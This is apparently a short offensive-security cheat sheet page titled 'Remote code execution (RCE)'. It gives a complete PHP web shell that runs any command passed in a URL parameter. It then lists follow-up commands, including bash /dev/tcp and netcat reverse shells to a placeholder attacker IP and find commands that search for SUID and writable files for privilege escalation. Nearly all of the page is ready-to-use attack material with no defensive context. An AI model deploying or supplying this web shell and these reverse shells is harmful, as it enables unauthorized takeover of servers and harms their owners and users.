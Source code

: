 ```yaml
---
title: Remote code execution (RCE)
sidebar_position: 1
---
```


## Get shell (PHP)
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```



**Commands to try after successful shell upload.**
- `whoami` - Prints the username.
- `pwd` - Prints working directory.
- `ls` - Lists all files in the directory.
- `uname -a` - Gives system information.
- `bash -i >& /dev/tcp/<your-ip>/<port> 0>&1` - Get reverse shell via bash.
- `nc -e /bin/sh <your-ip> <port>` - Get reverse shell via netcat.
- `find / -perm -4000 -type f 2>/dev/null` - Find SUID files. Useful for previlege escalation.
- `find / -writable -type  f 2>/dev/null | grep -v "/proc/"` - Find files with writable permissions. Useful for previlege escalation.